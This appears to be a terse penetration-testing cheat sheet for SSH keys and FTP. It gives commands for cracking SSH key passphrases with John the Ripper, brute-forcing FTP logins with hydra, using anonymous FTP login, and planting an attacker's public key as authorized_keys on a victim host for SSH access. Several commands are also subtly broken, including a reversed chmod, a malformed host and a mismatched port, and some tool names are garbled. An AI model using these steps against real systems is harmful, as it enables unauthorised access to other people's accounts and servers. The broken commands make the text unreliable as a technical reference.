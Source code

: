 Generated Key To connect **id_rsa**

### **Key-Connect**

`chmod id_rsa 400`

`ssh -i id_rsa user@IP.pub`

`Enter passphrase (empty for no passphrase):`

### **Key Crack**

**JTR**`JohnTheRipper`

`ssh2john   id_rsa > passphrasehash.txt`

`react as normal hash`

## `21`

## FTP  (File Transferee Protocol )

### **Manual :**

`ftp user@IP`

### **Bruteforce**

**Tools**:

TCHhydra

msfconsole

Cobaltstrike

msdussa

hydra `hydra -L user.txt -P passwrd.txt ftp://ip -s 22`  

### **missconfigration  :[**`anonymous`login**]**

`ftp anonymous:anonymous@IP`

### **FTP Commands**

upload `put file`

browse files ls `-lah`   `dir`

download `get file`

### **RCE [Reverse SSH Log-In]**

```bash
ftp>mkdir .ssh
ftp>cd .ssh
ftp>put id_rsa.pub #Is Generated From your machine
ftp>rename id_rsa.pub authorized_keys
ssh user@VectimIP
```
